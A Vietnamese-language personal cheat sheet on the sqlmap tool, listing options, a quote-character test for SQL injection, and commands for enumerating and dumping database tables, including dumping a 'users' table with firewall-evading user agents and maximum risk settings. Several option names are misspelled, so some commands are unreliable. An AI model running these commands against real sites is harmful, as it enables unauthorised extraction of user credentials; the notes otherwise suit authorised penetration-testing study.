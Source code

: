 # Syntax

```Bash
sqlmap -u "http://example.com/?search=123" <options>
```

- **Các options**:
    
    - -p seatch : một số URL có nhiều tham số thì cần para này. Nếu không sqlmap sẽ quét hết
    - --batch : bỏ qua các câu hỏi mặc định của SQLMap
    - --curent-db : DB hiện tại
    - --banner : phiên bản SQL
    - --tables :tìm bảng (liệt kê các bảng, nếu không đi kèm DB thì sẽ liệt kê hết)
    
    > [!important] ⇒ Có thể xem columns từ đây
    
    - --columns : xem cột, nhưng cần dùng thêm --tables để xác định bảng; có thể là cả -D <tên DB>
    - -p <id> : chỉ định tim payload vào một id cụ thể
    - --user-agent : giả browser để bypass firewall, nhận respond khác từ server (do phía server), …
    - --random-agent
    - --is-dba : check user hiện tại có phải quyền cao nhất không
    - --dbm=mysql : chỉ định loại DB, bỏ qua bước quét
    - --force-sql : buộc SQLMap sử dụng https kể cả lúc nhập vào là http
    - --ignore-redirects : không tự động chuyển hướng khi gặp status code 3xx (SQLMap mặc định tự chuyển)
    
    > [!important] Nếu chưa có para phù hợp thì cần tìm bằng:
    
    - --forms : tự động dò tìm và khai thác các form HTML (có thể 1 số form cần cookie)
    - --crawl=5 : dò các URL liên kết bên trong web
    - --techniqu = U / B / E (Union, Blind, Error-based)

---

# Kiểm tra SLQi

## Cách 1:

```JavaScript
http://example.com/page.php?id=1
```

⇒ Nếu chèn **'** vào thành:

```JavaScript
http://example.com/page.php?id=1'
```

mà có lỗi SQL thì khả năng có SQLi.

  

## Cách 2:

```Bash
sqlmap -u "domain" --batch --data="search=123"
```

---

# Dump

> Trích xuất dữ liệu từ DB

Các bước tiến hành: --dbs ⇒ --table -D <DB> ⇒ --dump -T <bảng> -D <DB>

```Bash
sqlmap -u "http:example.com/?search=123" -p search -D dic -T users --dump --batch
```

---

# Một ví dụ thực tế:

```Bash
sqlmap -u "https://domain.com/?search=123" --batch --level=5 --risk=3 -D eclip_cars -T users --dump --where="username='Alice'"
```

Kinh nghiệm là nên dùng --level=5 và --risk=3 để tăng khả năng quét.

Khi quét đc DB để tìm tables, xác định tables cần rồi thì tìm columns (username, password, id, ...) rồi hẵn dump.